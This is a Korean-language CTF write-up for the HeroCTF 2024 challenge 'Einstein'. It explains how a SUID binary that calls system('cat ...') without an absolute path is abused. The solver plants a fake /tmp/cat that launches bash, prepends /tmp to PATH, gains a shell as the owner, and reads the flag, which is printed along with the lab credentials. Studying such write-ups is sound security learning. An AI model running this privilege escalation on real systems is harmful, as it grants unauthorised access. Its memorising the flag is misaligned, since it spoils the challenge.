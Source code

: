## CTF 정보
- CTF: HeroCTF 2024
- 문제 이름: Einstein
- 점수: 50
- 난이도: very easy

## Description
1. The laws of physics are the same for all observers in any inertial frame of reference relative to one another (principle of relativity).

2. The speed of light in vacuum is the same for all observers, regardless of their relative motion or of the motion of the light source.

Source: https://en.wikipedia.org/wiki/Theory_of_relativity

Credentials: user:password

> Deploy on deploy.heroctf.fr

- Format : Hero{flag}
- Author : Log_s

## Solution
서버로 접속해보면 `learn`, `learn.c` 파일이 있다.

```shell
user@einstein:~$ ls -al 
total 44
drwx------ 1 user     user      4096 Oct 24 17:14 .
drwxr-xr-x 1 root     root      4096 Oct 24 17:14 ..
lrwxrwxrwx 1 root     root         9 Oct 24 17:14 .bash_history -> /dev/null
-rw-r--r-- 1 user     user       220 Oct 24 17:14 .bash_logout
-rw-r--r-- 1 user     user      3526 Oct 24 17:14 .bashrc
-rw-r--r-- 1 user     user       807 Oct 24 17:14 .profile
-rwsr-sr-x 1 einstein einstein 16160 Oct 24 17:14 learn
-rw-r--r-- 1 einstein einstein   679 Oct 24 17:03 learn.c
```

현재 user 계정으로 접속하였는데, `learn`, `learn.c` 파일은 소유자가 `einstein`이다.
`learn` 파일은 SUID 비트가 설정되어 있어서 소유자 권한으로 실행될 때 쉘을 획득할 수 있다.

```c
user@einstein:~$ cat learn.c
#include <stdio.h>
#include <unistd.h>

int main() {
    // Welcome message
    printf("Welcome to this physics course! All information on this course is not copied from the internet without fact check and is completely riginal.\n");
    printf("\n===================================\n\n");
    
    // Execute cat command
    setreuid(geteuid(), geteuid()); // Because system() runs sh that resets euid to uid if they don't match
                                    // Otherwise we could not read /home/einstein/theory.txt
    char command[30] = "cat /home/einstein/theory.txt";
    if (system(command) == -1) {
        perror("system");
        return 1;
    }

    return 0;
}
``` 

`learn.c` 파일을 보면 `system()` 함수를 사용하여 `cat /home/einstein/theory.txt` 명령어를 실행하고 있다.
`/home/einstein/` 하위에 있는 flag를 읽기 위해서는 `setreuid()` 함수를 사용하여 쉘을 획득해야 하는데, 현재 코드에서는 `theory.txt` 파일을 읽고 있다. 실행 중인 바이너리 내부의 command를 변경할 수 없으니 다른 방법을 찾아야 한다.

그런데 `system` 함수에서 `/bin/cat`이 아닌 `cat` 명령어를 실행하고 있어, 환경 변수 조작을 생각해볼 수 있다.

### Exploit Algorithm
```shell
user@einstein:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),100(users)

user@einstein:~$ echo 'bash' > /tmp/cat
user@einstein:~$ chmod +x /tmp/cat
user@einstein:~$ PATH=/tmp:$PATH ./learn
Welcome to this physics course! All information on this course is not copied from the internet without fact check and is completely riginal.

===================================

bash: /home/user/.bashrc: Permission denied

einstein@einstein:~$ id
uid=1001(einstein) gid=1000(user) groups=1000(user),100(users)
```
`/tmp/cat` 파일에 `bash`를 작성하고 실행 권한을 준 뒤, `PATH` 환경 변수에 등록해두면 `cat` 명령어를 실행하였을 때 `/bin/cat` 대신 `/tmp/cat` 명령어를 실행하게 된다. 즉, `learn` 바이너리를 실행하였을 때 `bash` 쉘을 획득할 수 있다.

> 여담으로는 실제로 문제를 풀 때, `tmp`가 아니라 `user` 홈 디렉토리에 `cat` 파일을 만들어서 환경 변수로 추가하는 방법을 사용하였는데 쉘 실행에 있어서 엄청난 메시지를 발생하는지 ssh 접속이 끊어지는 현상이 발생했다..ㅜㅜ

<br>

```shell
einstein@einstein:~$ ls -al /home/einstein
total 36
drwx------ 1 einstein einstein 4096 Oct 24 17:14 .
drwxr-xr-x 1 root     root     4096 Oct 24 17:14 ..
lrwxrwxrwx 1 root     root        9 Oct 24 17:14 .bash_history -> /dev/null
-rw-r--r-- 1 einstein einstein  220 Oct 24 17:14 .bash_logout
-rw-r--r-- 1 einstein einstein 3526 Oct 24 17:14 .bashrc
-rw-r--r-- 1 einstein einstein  807 Oct 24 17:14 .profile
-r-------- 1 einstein einstein   31 Oct 24 17:14 flag.txt
-rw-r--r-- 1 einstein einstein 5440 Oct 24 17:03 theory.txt
```

어쨌든 결과적으로 `einstein` 홈디렉토리에 `flag.txt` 파일이 있었고, 이를 읽을 때에는 `cat`이 아니라 `/bin/cat` 명령어를 사용해야 한다. `cat`은 `bash`를 실행하도록 조작되어 있기 때문이다.

<br>

```shell
einstein@einstein:~$ /bin/cat /home/einstein/flag.txt
Hero{th30ry_of_r3l4tiv3_p4th5}
```

## Flag
`Hero{th30ry_of_r3l4tiv3_p4th5}`
